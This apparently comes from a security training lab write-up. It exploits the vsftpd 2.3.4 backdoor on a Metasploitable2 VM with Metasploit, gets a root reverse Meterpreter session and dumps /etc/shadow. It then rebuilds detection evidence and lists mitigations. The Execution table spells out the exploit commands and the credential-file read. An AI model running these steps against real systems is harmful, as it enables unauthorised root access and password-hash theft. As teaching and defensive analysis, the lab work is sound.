# 03 - vsftpd 2.3.4 Backdoor Exploitation (CVE-2011-2523)

> Exploiting the known malicious backdoor in vsftpd 2.3.4 to obtain a root Meterpreter session, then reconstructing the same event from the defender's side.

---

## Objective

Exploit the backdoor inserted into the vsftpd 2.3.4 source distribution in 2011 to gain a root-level session on Metasploitable2, confirm the resulting impact, and reconstruct what evidence this activity leaves behind for detection, from both the attacker's and the defender's perspective.

---

## Reconnaissance

Port 21 (vsftpd 2.3.4) was flagged as a high-priority target in the [01-reconnaissance.md](01-reconnaissance.md) triage, and its banner was independently confirmed by manual connection in [02-wireshark-handshake.md](02-wireshark-handshake.md).

---

## Execution

| Step | Command / Action | Result |
|---|---|---|
| 1 | `search vsftpd` in `msfconsole` | Two modules found: an auxiliary DoS module (out of scope, not used) and `exploit/unix/ftp/vsftpd_234_backdoor` (rank Excellent) |
| 2 | `use exploit/unix/ftp/vsftpd_234_backdoor` | Module loaded. Default payload `cmd/linux/http/x86/meterpreter_reverse_tcp` auto-selected |
| 3 | `show options` | Confirmed required fields: RHOSTS, RPORT (21, prefilled), LHOST, LPORT (4444, prefilled), plus payload FETCH_* options |
| 4 | `check 192.168.10.20` | Confirmed the target vulnerable via FTP banner match, without executing the exploit |
| 5 | `set RHOSTS 192.168.10.20` and `set LHOST 192.168.10.10` | Configured target and attacker addresses |
| 6 | `exploit` | Backdoor triggered. Payload delivered via a temporary HTTP server on port 8080. Reverse Meterpreter session established on port 4444 |
| 7 | `getuid` | Confirmed the session is running as `root` |
| 8 | `sysinfo` | Confirmed target OS: Ubuntu 8.04, kernel 2.6.24-16-server, i686 |
| 9 | `cat /etc/shadow` (Meterpreter) | Dumped password hashes for every system account, demonstrating unrestricted read access |
| 10 | `sudo cat /var/log/vsftpd.log` (direct login to target) | Found four connection entries matching the exploitation timeline, none followed by a login result |
| 11 | `ps aux \| less` (direct login to target) | Identified a root-owned process with a randomized filename running from the filesystem root, matching the delivered Meterpreter payload |
| 12 | `netstat -antp \| less` (direct login to target) | Found an ESTABLISHED connection to 192.168.10.10:4444 (the active Meterpreter channel) and a CLOSE_WAIT connection on port 6200, the backdoor's classic port |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Technique ID |
|---|---|---|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 |
| Command and Control | Ingress Tool Transfer | T1105 |
| Credential Access | OS Credential Dumping: /etc/passwd and /etc/shadow | T1003.008 |
| Discovery | System Information Discovery | T1082 |

---

## Impact Observed

- Full root-level remote code execution on the target, confirmed via `getuid`
- Complete read access to the filesystem, demonstrated by extracting `/etc/shadow` (password hashes for every account, including root)
- Target identified as Ubuntu 8.04 running kernel 2.6.24-16-server, unsupported and unpatched for well over a decade
- The session remained active and interactive for the duration of the exercise

---

## Detection

Four independent sources of evidence were reconstructed for this single event, corroborating each other:

**Application log (`/var/log/vsftpd.log`, target side)**: four `CONNECT` entries match the exploitation timeline, none paired with an `OK LOGIN` or `FAIL LOGIN` result. This absence is a direct signature of the backdoor: it hijacks the connection before the normal authentication flow completes, unlike legitimate sessions, which always show a paired connect-and-login-result in this log.

**Process state (`ps aux`, target side)**: revealed a process running as root with a randomized alphanumeric name, executing from the filesystem root rather than any standard binary path. A root process with no plausible legitimate name or location is, by itself, sufficient grounds for investigation.

**Network state (`netstat`, target side)**: showed an established outbound connection to the attacker on port 4444 (the live Meterpreter channel), and a CLOSE_WAIT connection on TCP port 6200, the port historically and consistently associated with this exact backdoor across public documentation of CVE-2011-2523. An unexpected listener on port 6200 is, on its own, a well-documented indicator specific to this vulnerability.

**Network capture (Wireshark, attacker side)**: independently corroborates the same connection on port 4444, and the HTTP-based payload transfer over port 8080 immediately before it.

No Sigma or YARA rule has been written yet for this specific pattern. Candidate for a follow-up exercise once file-based and log-based rule writing is covered.

---

## Mitigation and Prevention

- Verify the integrity of downloaded source packages before building or deploying them (checksums, GPG signatures), directly relevant here since this backdoor originated from a compromised distribution archive
- Patch or retire unsupported software; vsftpd 2.3.4 has been unmaintained and known-compromised for over a decade
- Monitor for and alert on unexpected listening ports, particularly TCP 6200 in this specific case
- Monitor for processes running from non-standard paths with randomized names
- Restrict outbound connectivity from server systems, which would prevent a reverse-shell callback from succeeding even if initial access is gained
- Run services with the minimum privilege necessary; this backdoor's impact is maximized specifically because vsftpd was running as root

---

## Evidence



*Search results showing both the DoS module (not used) and the backdoor exploit module selected for this exercise.*



*Module loaded via `use`, with the default reverse Meterpreter payload auto-selected.*



*Module options showing RHOSTS and RPORT before the target was set.*



*Payload options showing LHOST, LPORT, and the FETCH_* delivery settings.*



*Output of `check`, confirming the target vulnerable without executing the exploit.*



*`getuid`, `getenv`, and `getpid` confirming the session is running as root.*



*Webcam and microphone command categories available to a root Meterpreter session, illustrating the scope of access full compromise grants.*



*`sysinfo` output confirming the target OS, kernel, and architecture.*



*Full dump of `/etc/shadow`, proving unrestricted read access to protected system files.*



*`vsftpd.log` entries matching the exploitation timeline, none paired with a login result.*



*`ps aux` output showing the delivered payload running as a root process with a randomized name.*



*`netstat` output showing the established Meterpreter connection on port 4444 and the CLOSE_WAIT connection on port 6200.*

---

## Notes / Open Questions

- Password hashes extracted from `/etc/shadow` were not cracked in this exercise. Offline hash cracking against them is a candidate for a dedicated future exercise.
- No custom Sigma or YARA rule was written for this backdoor's specific signature yet. Candidate for a follow-up exercise.
- This is the first exercise in the lab track resulting in full remote code execution. Findings here may later be cross-referenced with public sources to promote this into a full `analysis/attacks/` writeup, per the relationship to the main analyses described in [../README.md](../README.md).
